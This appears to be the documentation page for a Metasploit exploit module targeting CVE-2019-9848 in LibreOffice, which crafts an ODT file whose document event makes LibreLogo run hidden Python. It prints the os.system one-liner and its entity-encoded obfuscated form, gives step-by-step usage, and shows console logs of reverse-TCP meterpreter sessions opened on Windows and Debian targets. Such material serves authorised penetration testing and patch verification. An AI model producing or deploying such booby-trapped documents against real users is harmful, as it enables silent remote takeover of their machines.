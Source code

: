 ## Description

  This module exploits CVE-2019-9848 and is based on the module exploiting CVE-2018-16858, written by Shelby Pace.

  LibreOffice has a feature where documents can specify that pre-installed scripts can be executed on various document events such as mouse-over, etc. LibreOffice is typically also bundled with LibreLogo, a programmable turtle vector graphics script, which can be manipulated into executing arbitrary python commands. 

  By using the document event feature to trigger LibreLogo to execute python contained within a document a malicious document could be constructed which would execute arbitrary python commands silently without warning. 

  This module generates an ODT file with a dom loaded event that, when triggered, will execute any arbitrary python code and the metasploit payload. LibreLogo executes the python code stored on the text part of the document.

  The generated document file contains a one-liner python code that calls `os.system`: 

  ```python
  getattr(__import__(“os”),“system”)(“<%= @cmd %>”)
  ```

  but encoded :

  ```xml
  <text:p text:style-name="P8">&#x67;&#x65;&#x74;&#x61;&#x74;&#x74;&#x72;(&#x5f;&#x5f;&#x69;&#x6d;&#x70;&#x6f;&#x72;&#x74;&#x5f;&#x5f;(&#x201C;\x6f\&#x78;73&#x201D;),&#x201C;\&#x78;73\&#x78;79\&#x78;73\&#x78;74\x65\&#x78;6d&#x201D;)(“<%= @cmd %>”)</text:p>
  ```

  To avoid any python error, the h1 title written in the document is a python comment `#`.

## Vulnerable Application

  LibreOffice version 6.2.5 and prior.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/fileformat/libreoffice_logo_exec```
  4. Do: ```set LHOST <ip>```
  5. Do: ```set LPORT <port>```
  6. Do: ```run```
  7. Move the generated file to the target
  8. Start a handler
  9. Open the file with a vulnerable version of LibreOffice
 10. You should get a shell.

## Scenarios

### Tested on LibreOffice 6.2.4 running Windows 7

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_logo_exec 
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > run

  [+] librefile.odt stored at /home/foobar/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.33.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.33.102
  [*] Meterpreter session 3 opened (192.168.33.1:4444 -> 192.168.33.102:46327) at 2019-07-29 03:33:03 -0400

  meterpreter > 
  ```

### Tested on LibreOffice 6.2.4 running Debian 9.9

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_logo_exec 
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > run

  [+] librefile.odt stored at /home/foobar/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.33.1:4444 
  [*] Sending stage (985320 bytes) to 192.168.33.117
  [*] Meterpreter session 5 opened (192.168.33.1:4444 -> 192.168.33.117:43602) at 2019-07-29 04:44:04 -0400

  meterpreter > getuid
  Server username: uid=1001, gid=1001, euid=1001, egid=1001
  meterpreter > 
  ```
